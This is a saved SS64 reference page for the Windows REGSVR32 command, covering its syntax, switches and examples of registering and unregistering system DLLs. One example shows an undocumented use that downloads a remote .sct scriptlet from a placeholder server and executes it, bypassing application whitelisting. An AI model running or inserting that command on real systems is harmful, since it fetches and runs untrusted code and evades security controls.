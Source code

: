 ```yaml
---
title:
altTitle: SS64 Docs
date: 2016-09-04 19:26:55
useGithubLayout: false
---
```

<!-- #BeginLibraryItem "/Library/head_nt.lbi" --><!-- #EndLibraryItem --><h1>REGSVR32</h1>
<p>Register or unregister a DLL.</p>
<pre>Syntax
      REGSVR32 [/U] [/S] [/N] /I:[<i>CommandLine</i>] <i>DLL_Name</i><br>
Key
   /u          Unregister Server.

   /s          Silent, do not display dialogue boxes.

   /i          Call DllInstall to register the DLL.
               (when used with /u, it calls dll uninstall.)

   /n          Do not call DllRegisterServer, you must use this option with /i. 

  <i>CommandLine</i>  An optional command line for DllInstall

   /c          Console output (old versions only).</pre>
<p> <b>Examples</b></p>
<p>Unregister (disable) XP Zip folders<br>  
<span class="code">REGSVR32 <b>/u</b> C:\Windows\System32\zipfldr.dll</span></p>
<p>Unregister (Disable) CAB file viewer: <br>
<span class="code"> REGSVR32<b> /u</b> C:\Windows\System32\cabview.dll</span></p>
<p>Register (enable) <span>XP Zip folders<br>
</span>  <span class="code">REGSVR32 zipfldr.dll</span></p>
<p>Register (enable) <span>CAB file viewer:<br>
</span> <span class="code">REGSVR32 cabview.dll</span></p>
<p>Register Windows Update DLLs (for those times when XP repair <a href="http://windowssecrets.com/2007/09/27/03-Stealth-Windows-update-prevents-XP-repair">breaks</a> Windows Update) <br>
<span class="code">regsvr32 /s wuapi.dll<br>
regsvr32 /s wuaueng1.dll<br>
regsvr32 /s wuaueng.dll<br>
regsvr32 /s wucltui.dll<br>
regsvr32 /s wups2.dll<br>
regsvr32 /s wups.dll<br>
regsvr32 /s wuweb.dll</span></p>
<p>Register DAO 3.6 (Data Access Objects):<br>
<br>
<span class="code">REGSVR32 "C:\Program Files\Common Files\Microsoft Shared\DAO\DAO360.DLL"</span></p>
<p>Using UnRegister to trigger remote code execution (<a href="http://subt0x10.blogspot.co.uk/2016/04/bypass-application-whitelisting-script.html">undocumented</a>)<br>
<span class="code">REGSVR32 /s /n /u /i:http://server/file.sct scrobj.dll</span></p>
<p class="quote">“I was planning to go into architecture. But when I arrived, architecture was filled up. Acting was right next to it.  So I signed up for acting instead” ~ Tom Selleck (on his college registration experience)</p>
<p><b>Related:</b><br>
<br>
Delsrv - unregister a service with the Services Control Manager. (<a href="../links/windows.html#kits">Win 2K ResKit</a>)<br>
<a href="msiexec.html">MSIEXEC</a> - Microsoft Windows Installer <br>
<a href="rundll32.html">RUNDLL32</a> - Run a DLL command <br>
<a href="https://support.microsoft.com/kb/249873">Q249873</a> - Regsvr32 usage and error messages</p><!-- #BeginLibraryItem "/Library/foot_nt.lbi" --><p>
<!-- windows300 -->
<ins class="adsbygoogle" style="display:inline-block;width:300px;height:250px" data-ad-client="ca-pub-6140977852749469" data-ad-slot="7649547908"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script></p>
<hr>
<div id="bl" class="footer"><a href="regsvr32.html#"><img src="../images/top.png" width="30" height="22" alt="Back to the Top"></a></div>
<div id="br" class="footer, tagline">© Copyright <a href="../index.html">SS64.com</a> 1999-2016<br>
Some rights reserved</div><!-- #EndLibraryItem -->
